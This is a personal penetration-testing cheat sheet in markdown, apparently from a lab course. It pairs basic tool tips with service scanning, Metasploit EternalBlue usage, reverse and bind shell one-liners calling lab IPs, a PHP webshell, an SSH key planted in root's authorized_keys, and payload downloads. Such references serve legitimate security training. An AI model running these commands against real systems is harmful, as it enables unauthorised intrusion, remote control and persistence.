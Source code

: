 ```yaml
---
id: 3o48nuz7byeshb4lhbfpang
title: PEN_cheatsheet
desc: ''
updated: 1680243688437
created: 1673077678854
---
```

## Basic Tools

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `sudo openvpn user.ovpn` | Connect to VPN |
| `ifconfig`/`ip a` | Show our IP address |
| `netstat -rn` | Show networks accessible via the VPN |
| `ssh user@10.10.10.10` | SSH to a remote server |
| `ftp 10.129.42.253` | FTP to a remote server |
| **tmux** |
| `tmux` | Start tmux |
| `ctrl+b` | tmux: default prefix |
| `prefix c` | tmux: new window |
| `prefix 1` | tmux: switch to window (`1`) |
| `prefix shift+%` | tmux: split pane vertically |
| `prefix shift+"` | tmux: split pane horizontally |
| `prefix ->` | tmux: switch to the right pane |
| **Vim** |
| `vim file` | vim: open `file` with vim |
| `esc+i` | vim: enter `insert` mode |
| `x` | vim: Cut character |
| `dw` | vim: Cut word |
| `dd` | vim: Cut full line |
| `yw` | vim: Copy word |
| `yy` | vim: Copy full line |
| `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

## Pentesting
| **Command**   | **Description**   |
| --------------|-------------------|
| **Service Scanning** |
| `nmap 10.129.42.253` | Run [[Cheat Sheets.PEN_cheatsheet.Nmap]] on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an [[Cheat Sheets.PEN_cheatsheet.Nmap]] script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `xsltproc target.xml -o target.html` | Convert stored results from XML to HTML |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |
| **Public Exploits** |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |

